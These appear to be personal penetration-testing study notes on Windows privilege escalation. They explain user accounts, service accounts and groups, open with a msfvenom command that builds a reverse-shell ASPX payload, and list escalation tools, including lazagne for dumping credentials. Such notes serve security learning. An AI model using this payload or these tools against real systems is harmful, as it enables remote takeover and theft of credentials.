 ## Windows Shells
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST LPORT -f aspx -o pay.aspx
```

<center><h1>Tools</h1></center>

- accesschk.exe -  *checks the access of specified parameter for the current user.*
- AdminPaint.lnk
- CreateShortcur.vbs
- lpe.bat
- plink.exe
- Powerip.ps1
- PrinterSpoofer.exe
- Procmon64.exe
- RoguePotato.exe
- savecred.bat
- Seatbelt.exe
- SharUp.exe
- winPEASany.exe\
- lazagne.exe - *For dumping all the credentials it has*

---

**LocalSystem** = nt authority\system

---

**Gaining Administrator or SYSTEM user shell.**

All privesc are examples of **access control violations**
*Access control* and *user permissions* are intrinsically linked.

When understanding privesc in windows we need to undestand *how Windows handles permissions* is very important.

# Permissions in Windows
## User accounts
Administrator is by default at the time of installation.
## Service accounts
- Service accounts are responsible to run services in windows like in linux ssh and all in passwd file
- They dont have interative shell which cannt sign in into windows
- **SYSTEM account is a default service account which has the highest privileges of any local account in Windows.**
- Other default service accounts include *NETWORK SERVICE* and *LOCAL SERVICE*

## Groups
User can belong to multiple groups and groups can have multiple users.
Groups allow for easier access control to resource.
**Regular groups:** Administrators, Users ( have set list of members. )
**Pseudo groups:** Authenticated Users ( have a dynamic list of members which changes based on certain interactions. )
